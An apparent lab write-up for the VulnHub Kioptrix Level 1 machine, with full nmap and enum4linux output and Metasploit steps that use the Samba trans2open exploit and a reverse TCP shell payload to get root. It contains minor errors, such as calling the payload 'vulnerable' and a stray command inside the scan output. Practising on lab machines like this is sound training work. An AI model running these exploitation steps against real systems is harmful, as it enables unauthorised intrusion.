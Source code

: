 # [Machine](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

- # ENUM
	- ### nmap (`nmap -sV -p- -A -T4 kioptrix-1`)
		- ```PORT     STATE SERVICE     VERSION
			22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
			| ssh-hostkey: 
			|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
			|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
			|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
			|_sshv1: Server supports SSHv1
			80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
			|_http-title: Test Page for the Apache Web Server on Red Hat Linux
			| http-methods: 
			|_  Potentially risky methods: TRACE
			|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
			111/tcp  open  rpcbind     2 (RPC #100000)
			| rpcinfo: 
			|   program version    port/proto  service
			|   100000  2            111/tcp   rpcbind
			|   100000  2            111/udp   rpcbind
			|   100024  1           1024/tcp   status
			|_  100024  1           1024/udp   status
			139/tcp  open  netbios-ssn Samba smbd (workgroup: O<MYGROUP)
			443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
			| sslv2: 
			|   SSLv2 supported
			|   ciphers: 
			|     SSL2_DES_64_CBC_WITH_MD5
			|     SSL2_RC4_64_WITH_MD5
			|     SSL2_RC4_128_EXPORT40_WITH_MD5
			|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
			|     SSL2_DES_192_EDE3_CBC_WITH_MD5
			|     SSL2_RC4_128_WITH_MD5
			|_    SSL2_RC2_128_CBC_WITH_MD5
			|_ssl-date: 2025-08-16T21:32:59+00:00; +3h59m58s from scanner time.
			|_http-title: 400 Bad Request
			|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
			| ssl-cert: Subject: nmap -p445 --script smb-protocols  commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
			| Not valid before: 2009-09-26T09:32:06
			|_Not valid after:  2010-09-26T09:32:06
			1024/tcp open  status      1 (RPC #100024)
			
			Host script results:
			|_smb2-time: Protocol negotiation failed (SMB2)
			|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
			|_clock-skew: 3h59m57s
		- #### PORTS :
		  22      ssh
		  80      http    apache
		  111     rpc
		 139     samba
		 443     https   apache
		 1024    kdm
	- # enum4linux (`enum4linux -a kioptrix-1`)
		- Workgroup name: `MYGROUP`
		- NetBIOS name: `KIOPTRIX`

- # EXPLOITATION
	- Check for Samba version on msfconsole (Metasploit):
		- `search smb_version` -> `use 0` -> `set rhosts kioptrix-1` -> `exploit`
			- Samba version: `2.2.1a`
				- Search `samba 2.2.1a exploit` on google: "`trans2open`"
	- Set payload to `linux/x86/shell/reverse_tcp` (a old and vulnerable shell payload):
		- `set payload linux/x86/shell/reverse_tcp`
	- Run `exploit/linux/samba/trans2open` on `msfconsole`
		- We're root!
